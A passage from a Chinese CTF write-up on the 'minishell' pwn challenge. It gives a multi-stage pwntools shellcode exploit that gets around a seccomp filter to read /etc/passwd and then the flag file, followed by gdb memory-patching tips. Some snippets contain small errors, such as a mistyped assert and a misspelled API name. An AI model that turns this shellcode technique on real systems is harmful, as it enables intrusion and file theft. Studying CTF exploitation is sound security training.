 ```python
In [24]: a = pwn.asm('a:syscall; xor al, al; mov dl, 0xff; jmp a'); binascii.hexlify(a[2:]), len(a)-2
Out[24]: ('30c0b2ffebf8', 6)
```
這次read就可以讀入足夠多的shellcode了。由於我們只能使用指定系統調用，所以先讀取/etc/passwd文件找到用戶minishell，然後再運行一遍讀取/home/minishell/flag.txt即可。

```python
import sys; from pwn import *

context.arch = 'amd64'; context.os = 'linux'

r = process('./minishell')
r.recvuntil('So what? ')

# mprotect(buf, len, PROC_RWX)
# read(0, buf+6, 7)
sc = "mov al, 0xa; mov dl, 0x7; a: syscall; push rcx; push rax; pop rdi; pop rsi; jmp a;"
assert len(asm(sc))==12
r.send(asm(sc))
sleep(0.5)

# read(0, buf+6, 0xff)
sc = "a: syscall; mov al, 0; mov dl, 0xff; jmp a;"
assert len(asm('syscall'))==2
assert len(asm(sc))==8
r.send(asm(sc)[2:] + 'A')
sleep(0.5)

# open('/etc/passwd')
# read(fd[rax], buf, 0x30)
# write(1, buf, 0x30)
# exit()
sc = """mov rax, 2; mov rdi, rsi; add rdi, 77; mov rsi, 0; mov rdx, 0; syscall;
        mov rsi, rdi; mov rdi, rax; mov rax, 0; mov rdx, 0xff; syscall;
        mov rax, 1; mov rdi, 1; syscall;
        mov rax, 60; syscall;"""
assert asm(sc)==77
r.sendline(asm(sc) + '/etc/passwd\x00')
print r.recvall()
```

另外，有人發現第一個shellcode中RWX設置還可以是15(7 | 8)，那就更加簡單了。詳見參考資料。該方法中第三階段的payload構造也很有意思，是將讀入的數據放在了堆棧上，並且使用了pwn的shellcraft庫。

## 收穫的小技巧
gdb進行調試時修改內存數據有如下幾種方式：
1. set {int}0x55555555=1
1. restore filename binary address（如restore data.bin binary 0x7ffffff7fcf006）
1. xor-memory patch addr size key
    1. 如xor-memory patch 0x55555555 12 ff
    1. 修改前可用xor-memory display預覽
    1. 再運行一次相同patch命令相當於撤銷更改
    1. gef命令，非gdb原生命令。
1. python API. `Inferior.wirte_memory`

## 參考資料
1. [seccomp学习笔记](https://veritas501.space/2018/05/05/seccomp%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)
1. [Github seccomp-tools](https://github.com/david942j/seccomp-tools)
1. [參考WP](https://balsn.tw/ctf_writeup/20181130-pwn2winctf/#minishell)
1. [參考WP2]
